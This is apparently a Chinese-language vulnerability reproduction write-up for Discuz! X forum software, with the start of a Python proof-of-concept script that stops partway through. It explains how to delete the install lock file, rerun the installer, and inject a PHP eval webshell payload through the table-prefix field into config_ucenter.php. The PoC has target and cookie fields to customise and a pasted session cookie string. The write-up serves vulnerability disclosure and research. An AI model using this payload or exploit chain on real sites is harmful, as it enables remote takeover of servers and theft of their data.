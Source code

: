 因为 dbhost, dbuser等参数需要用来连接数据库，所以利用 tablepre 向配置文件写入shell。

**漏洞复现**

如果安装后install/index.php因为某些原因还存在，直接访问会有如下警告：

![](images/15889930705243.png)


通过文件删除漏洞删除data目录下的install.lock文件就可以重新安装。

安装过程修改表前缀内容为：`x');@eval($_POST[lanvnal]);('`

![](images/15889930835743.png)


在config/config_ucenter.php中已经写入了webshell。

![](images/15889930920266.png)


![](images/15889930956108.png)


**poc**


```python
#!/usr/bin/env python3
import base64
import random
import re
import string

import requests

sess = requests.Session()
randstr = lambda len=5: ''.join(random.choice(string.ascii_lowercase) for _ in range(len))

##################################################
########## Customize these parameters ############
target = 'http://localhost/discuzx'
# login target site first, and copy the cookie here
cookie = "UM_distinctid=15bcd2339e93d6-07b5ae8b41447e-8373f6a-13c680-15bcd2339ea636; CNZZDATA1261218610=1456502094-1493792949-%7C1494255360; csrftoken=NotKIwodOQHO0gdMyCAxpMuObjs5RGdeEVxRlaGoRdOEeMSVRL0sfeTBqnlMjtlZ; Zy4Q_2132_saltkey=I9b3k299; Zy4Q_2132_lastvisit=1506763258; Zy4Q_2132_ulastactivity=0adb6Y1baPukQGRVYtBOZB3wmx4nVBRonRprfYWTiUaEbYlKzFWL; Zy4Q_2132_nofavfid=1; Zy4Q_2132_sid=rsQrgQ; Zy4Q_2132_lastact=1506787935%09home.php%09misc; 7Csx_2132_saltkey=U8nrO8Xr; TMT0_2132_saltkey=E3q5BpyX; PXMk_2132_saltkey=rGBnNWu7; b4Gi_2132_saltkey=adC4r05k; b4Gi_2132_lastvisit=1506796139; b4Gi_2132_onlineusernum=2; b4Gi_2132_sendmail=1; b4Gi_2132_seccode=1.8dab0a0c4ebfda651b; b4Gi_2132_sid=BywqMy; b4Gi_2132_ulastactivity=51c0lBFHqkUpD3mClFKDxwP%2BI0JGaY88XWTT1qtFBD6jAJUMphOL; b4Gi_2132_auth=6ebc2wCixg7l%2F6No7r54FCvtNKfp1e5%2FAdz2SlLqJRBimNpgrbxhSEnsH5%2BgP2mAvwVxOdrrpVVX3W5PqDhf; b4Gi_2132_creditnotice=0D0D2D0D0D0D0D0D0D1; b4Gi_2132_creditbase=0D0D0D0D0D0D0D0D0; b4Gi_2132_creditrule=%E6%AF%8F%E5%A4%A9%E7%99%BB%E5%BD%95; b4Gi_2132_lastcheckfeed=1%7C1506800134; b4Gi_2132_checkfollow=1; b4Gi_2132_lastact=1506800134%09misc.php%09seccode"
shell_password = randstr()
db_host = ''
db_user = ''
db_pw = ''
db_name = ''
#################################################

path = '/home.php?mod=spacecp&ac=profile&op=base'
url = target + path

sess.headers.update({
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.100 Safari/537.36',
```